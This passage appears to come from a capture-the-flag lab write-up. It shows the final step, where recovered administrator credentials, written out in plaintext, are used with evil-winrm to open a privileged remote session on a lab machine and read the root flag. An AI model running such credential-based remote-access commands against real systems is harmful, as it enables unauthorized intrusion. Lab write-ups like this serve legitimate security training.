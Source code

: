## 🏁 Administrator Access and Root Flag

Using the recovered administrator credentials, we established a privileged WinRM session:

```bash
evil-winrm -i 10.129.96.157 -u administrator -p "Q4)sJu\Y8qz*A3?d"
```

![Administrator Shell](images/image1.png)

We now had full control of the system.  
The **root flag** was found on the Administrator’s desktop:

```
C:\Users\Administrator\Desktop\root.txt
```

![Root Flag](images/image2.png)

---